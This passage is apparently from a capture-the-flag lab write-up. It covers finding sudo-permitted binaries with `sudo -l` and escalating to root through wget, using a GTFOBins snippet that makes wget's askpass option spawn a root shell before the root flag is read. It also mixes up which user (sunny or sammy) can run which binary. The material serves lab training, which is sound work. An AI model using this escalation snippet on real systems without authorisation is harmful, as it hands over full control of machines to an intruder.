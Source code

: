 ```bash
cat user.txt
```

<details><summary>🚩 Flag 1 (user.txt)</summary></details>

## Task 3 - Find root flag

### 3.1 - What is the full path of the binary that user sunny can run with sudo privileges?

Executing `sudo -l` command we can commands that user puma can execute with sudo privileges:

<div align="left"><figure><img src="../.gitbook/assets/image (372).png" alt=""><figcaption></figcaption></figure></div>

{% hint style="info" %}
/root/troll
{% endhint %}

### 3.2 - What is the complete path of the binary that user sammy can run with sudo privileges?

Same thing, `sudo -l` command and it's done!

<div align="left"><figure><img src="../.gitbook/assets/image (371).png" alt=""><figcaption></figcaption></figure></div>

{% hint style="info" %}
/usr/bin/wget
{% endhint %}

### 3.3 - Submit the flag located in root's home directory.

The previous two tasks are the prelude to privilege escalation, let's checking them!

#### sammy

* /root/troll

Not knowing "troll" which I imagine is an ironic name, we focus on the usual wget.

#### sunny

* /usr/bin/wget

As always, the wget bible has a solution for privilege escalation with sudo.

```bash
TF=$(mktemp)
chmod +x $TF
echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF
sudo wget --use-askpass=$TF 0
```

{% embed url="https://gtfobins.github.io/gtfobins/wget/" %}

<div align="left"><figure><img src="../.gitbook/assets/image (374).png" alt=""><figcaption></figcaption></figure></div>

```
cat /root/root.txt
```

<details><summary>🚩 Flag 2 (root.txt)</summary></details>

<figure><img src="../.gitbook/assets/image (373).png" alt=""><figcaption></figcaption></figure>
